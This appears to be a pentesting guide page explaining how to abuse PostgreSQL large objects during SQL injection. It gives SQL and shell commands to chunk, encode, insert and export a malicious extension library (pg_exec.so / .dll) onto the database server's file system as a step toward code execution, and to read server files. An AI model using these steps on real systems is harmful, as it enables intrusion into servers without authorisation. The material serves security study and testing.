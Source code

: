 

 


# PostgreSQL Large Objects

PostgreSQL exposes a structure called **large object (**`pg_largeobject`  table), which is used for storing data that would be difficult to handle in its entirety (like an image or a PDF document). As opposed to the `COPY TO` function, the advantage of **large objects** lies in the fact that the **data** they **hold** can be **exported back** to the **file system** as an **identical copy of the original imported file**.

In order to **save a complete file inside this table** you first need to **create an object** inside the mentioned table (identified by a **LOID**) and then **insert chunks of 2KB** inside this object. It's very important that all the **chunks have 2KB** (except possible the last one) **or** the **exporting** function to the file system **won't work**.

In order to **split** your **binary** in **chunks** of size **2KB** you can do:

```bash
split -b 2048 pg_exec.so #This will create files of size 2KB
```

In order to encode each of the files created to Base64 or Hex you can use:

```bash
base64 -w 0 <Chunk_file> #Encoded in 1 line
xxd -ps -c 99999999999 <Chunk_file> #Encoded in 1 line
```

{% hint style="info" %}
When exploiting this remember that you have to send **chunks of 2KB clear-text bytes** (not 2KB of base64 or hex encoded bytes). If you try to automate this, the size of a **hex encoded** file is the **double** (then you need to send 4KB of encoded data for each chunk) and the size of a **base64** encoded file is `ceil(n / 3) * 4`
{% endhint %}

Also, debugging the process you can see the contents of the large objects created with:

```sql
 select loid, pageno, encode(data, 'escape') from pg_largeobject;
```

# Using lo\_creat & Base64

First, we need to create a LOID where the binary data is going to be saved:

```sql
SELECT lo_creat(-1);       -- returns OID of new, empty large object
SELECT lo_create(173454);   -- attempts to create large object with OID 43213
```

If you are abusing a **Blind SQLinjection** you will be more interested on using `lo_create` with a **fixed LOID** so you **know where** you have to **upload** the **content**.\
Also, note that there is no syntax error the functions are `lo_creat` and `lo_create`.

LOID is used to identify the object in the `pg_largeobjec`t table. Inserting chunks of size 2KB into the `pg_largeobject` table can be achieved using:

```sql
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 1, decode('<B64 chunk2>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) values (173454, 3, decode('<B64 chunk2>', 'base64'));
```

Finally you can export the file to the file-system doing (during this example the LOID used was `173454`):

```sql
SELECT lo_export(173454, '/tmp/pg_exec.so');
```

{% hint style="info" %}
Note the in newest versions of postgres you may need to **upload the extensions without indicating any path** at all. [**Read this for more information**.](rce-with-postgresql-extensions.md#rce-in-newest-prostgres-versions)
{% endhint %}

You possible may be interested in delete the large object created after exporting it:

```sql
SELECT lo_unlink(173454);  -- deletes large object with OID 173454
```

# Using lo\_import & Hex

In this scenario lo\_import is going to be used to create a large object object. Fortunately in this case you can (and cannot) specify the LOID you would want to use:

```sql
select lo_import('C:\\Windows\\System32\\drivers\\etc\\hosts');
select lo_import('C:\\Windows\\System32\\drivers\\etc\\hosts', 173454);
```

After creating the object you can start inserting the data on each page (remember, you have to insert chunks of 2KB):

```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=2;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=3;
```

The HEX must be just the hex (without `0x` or `\x`), example:

```sql
update pg_largeobject set data=decode('68656c6c6f', 'hex') where loid=173454 and pageno=0;
```

Finally, export the data to a file and delete the large object:

```sql
 select lo_export(173454, 'C:\\path\to\pg_extension.dll');
 select lo_unlink(173454);  -- deletes large object with OID 173454
```

{% hint style="info" %}
Note the in newest versions of postgres you may need to **upload the extensions without indicating any path** at all. [**Read this for more information**.](rce-with-postgresql-extensions.md#rce-in-newest-prostgres-versions)
{% endhint %}

# Limitations

After reading the documentation of large objects in PostgreSQL, we can find out that **large objects can has ACL** (Access Control List). It's possible to configure **new large objects** so your user **don't have enough privileges** to read them even if they were created by your user.

However, there may be **old object with an ACL that allows current user to read it**, then we can exfiltrate that object's content.


 


